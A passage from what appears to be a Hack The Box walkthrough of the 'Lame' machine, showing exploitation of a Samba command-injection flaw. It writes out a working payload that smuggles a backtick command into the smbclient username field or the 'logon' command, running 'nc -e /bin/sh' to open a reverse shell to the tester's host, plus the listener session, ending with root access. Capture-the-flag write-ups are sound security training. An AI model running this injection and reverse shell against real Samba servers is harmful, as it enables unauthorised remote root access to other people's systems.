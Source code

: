 Seems simple enough, all we have to do is abuse backticks ` `` `  in unsanitized text that is passed to `sh`  to gain command execution. This happens in the below files in `samba`

- source/lib/smbrun.c
- source/smbd/map_username.c

Cool! lets give a spin

### Shell as root

I attempted to exploit this manually using `smbclient` as below but all failed. I kept getting a shell but it was to my box.

```sh
┌─[george@parrot]─[~/HTB/boxes/lame]
└──╼ $ smbclient //10.10.10.3/tmp -U "./=`nohup nc -e /bin/sh 10.10.16.7 9001`"
nohup: ignoring input and redirecting stderr to stdout
```

```sh
┌─[george@parrot]─[~/HTB]
└──╼ $ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.16.7] 37890
ls
49757.py
Lame2.png
Lame.png
nmap
whoami
george
```

Digging further I realised there is you can actually switch users using the `logon` command

```rb
smb: \> help logon
HELP logon:
        establish new logon

smb: \>
```

This will change our exploit to

```sh
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.16.7 9001`"
```

And we are in as `root`
